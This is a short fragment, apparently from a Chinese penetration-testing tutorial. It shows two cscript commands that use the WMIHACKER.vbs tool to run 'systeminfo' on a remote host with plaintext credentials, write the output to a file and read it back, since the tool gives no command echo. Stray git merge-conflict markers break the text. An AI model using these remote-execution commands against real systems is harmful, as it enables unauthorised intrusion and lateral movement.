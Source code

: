 [![](assets/1710211848-134b395b58c8f3f55a0dd9c1c55d529d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240308134939-a7038d0e-dd0f-1.png)

无命令回显，只能通过写文件再读文件的方式来实现

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
cscript WMIHACKER.vbs /cmd 192.168.3.157 micle "admin" "systeminfo > c:\1.txt" 0
cscript WMIHACKER.vbs /cmd 192.168.3.157 micle "admin" "type  c:\1.txt" 1
```

<<<<<<< HEAD